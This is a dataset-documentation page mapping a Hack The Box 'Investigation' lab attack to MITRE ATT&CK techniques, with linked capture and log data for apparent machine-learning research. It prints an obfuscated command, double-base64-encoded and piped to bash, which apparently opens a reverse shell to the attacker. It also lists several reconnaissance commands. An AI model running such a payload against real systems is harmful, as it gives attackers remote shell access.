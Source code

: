 # Cyber4ML_Framework application in "Investigation" HTB machine

## Framework application details

|Documentation|MITRE ATT&CK|Enterprise|ICS|Network Analysis|Log Analysis|
|-|-|-|-|-|-|
|Yes|Yes|Yes|No|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.54|10.10.11.197|

**Average:** The knowledge, behavior and attack-timing of the attacker is average.

## Documentation

Documentation of the attack: [Investigation Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/Investigation/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script | CVE/CWE |
| - | - | - | - | - |
| Reconnaissance | Gather Victim Host Information | Software | - | - |
| Initial Access | Exploit Public-Facing Application | - | (1) | CVE-2022-23935/CWE-77 |
| Execution | Exploitation for Client Execution | - | (1) | CVE-2022-23935/CWE-77 |
| Discovery | System Owner/User Discovery | - | (2) | - |
| Discovery | File and Directory Discovery | - | (3) | - |
| Persistence | Valid Accounts | Local Accounts | (4) | - |
| Discovery | Permission Groups Discovery | Local Groups | (5) | - |
| Privilege Escalation | Exploitation for Privilege Escalation | - | - | - |

#### Commands/Scripts
- (1)
```
'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ek1TODBORFEwSURBK0pqRUsK' | base64 -d | base64 -d | bash |
```

- (2)
```
whoami
```

- (3)
```
find / -type d -iname "invest*" 2>/dev/null
```

- (4)
```
ssh smorton@eforenzics.htb
```

- (5)
```
sudo -l
```

## Network Data

Pcap file of the attack: [Capture File](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Investigation/attack_capture.pcapng)

## Malicious Log Data
